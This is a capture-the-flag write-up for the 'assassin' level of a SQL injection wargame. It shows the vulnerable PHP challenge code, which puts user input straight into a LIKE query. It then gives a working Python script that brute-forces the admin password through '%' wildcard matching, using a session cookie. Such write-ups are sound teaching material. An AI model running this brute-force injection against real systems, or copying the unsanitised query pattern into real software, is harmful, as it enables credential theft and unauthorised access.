 # assassin

----------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

Here they use `like` , so we can ty just putting a `%` which will replace all characters . But we get `Hello guest` as guest is in the top of the table.

Now we can find the the admins password but  still the first few characters of admin is same as that of guets and we will get `Hello guest` as output only. So i made a script to find the password :

```python
import requests
import string

session = requests.Session()

url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw={}%'
cookies = {"PHPSESSID": "lmscmn6uu5q675j19npln84ik4"}
pw = ""
for j in range(8):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "_#*%"):
            print('a',i)
            j= i
            break
        if('Hello guest' in r.text[:200] and i not in "_#*%"):
            print('g',i)
            j= i
    pw+=j
    print("Password :", pw)
print("Password :", pw)
```

It gave the password as `902efd10` and giving that as the value of `pw` solved the level
